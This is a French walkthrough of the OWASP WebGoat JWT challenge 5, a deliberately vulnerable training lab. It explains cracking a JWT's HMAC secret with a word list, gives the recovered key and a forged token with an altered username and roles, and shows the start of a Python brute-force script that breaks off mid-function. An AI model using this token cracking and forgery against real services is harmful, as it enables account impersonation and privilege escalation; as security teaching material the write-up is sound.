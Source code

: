 ![JWT 5](images/wiki_owasp_webgoat/jwt-5-2.png)

5.  
![Hint](images/wiki_owasp_webgoat/hint.png) Save the token and try to verify the token locally  
![Hint](images/wiki_owasp_webgoat/hint.png) Download a word list dictionary (https://github.com/first20hours/google-10000-english)  
![Hint](images/wiki_owasp_webgoat/hint.png) Write a small program or use HashCat for brute forcing the token according the word list

Il est possible d'effectuer ce challenge à l'aide d'outils tels que **johntheripper** et https://jwt.io/, mais afin de mieux comprendre voilà un petit script Python.

*   Isoler la signature, et la reformater correctement.
*   Utiliser chaque mot du dictionnaire comme clé, calculer le HMAC du message initial, le convertir en base64, et comparer avec la signature.
*   S'il y a correspondance, le mot du dictionnaire correspond à la clé (valeur trouvée : **victory**).
*   Calculer alors la nouvelle signature avec le message modifié :
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJ
pYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwNCwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJ
0b21Ad2ViZ29hdC5jb20iLCJ1c2VybmFtZSI6IldlYkdvYXQiLCJFbWFpbCI6InRvbUB3ZWJnb2F0LmN
vbSIsIlJvbGUiOlsiTWFuYWdlciIsIlByb2plY3QgQWRtaW5pc3RyYXRvciJdfQ.dImA6LEwQc1-ZqVP
WWGE01u1jO2a-yfx8lZetbDqiTc
```

```python
import base64  
import hashlib  
import hmac  
  
def jwt_tokens_5():  
     token = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwNCwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJ0b21Ad2ViZ29hdC5jb20iLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQuY29tIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.vPe-qQPOt78zK8wrbN1TjNJj3LeX9Qbch6oo23RUJgM'.split('.')  
  
     payload = '{"iss":"WebGoat Token Builder","iat":1524210904,"exp":1618905304,"aud":"webgoat.org","sub":"tom@webgoat.com","username":"WebGoat","Email":"tom@webgoat.com","Role":["Manager","Project Administrator"]}'.encode()  
  
     unsigned_token = (token[0] + '.' + token[1]).encode()  
  
     # signature is base64 URL encoded and padding has been removed, so we must add it  
     signature = (token[2] + '=' * (-len(token[2]) % 4)).encode()  
```
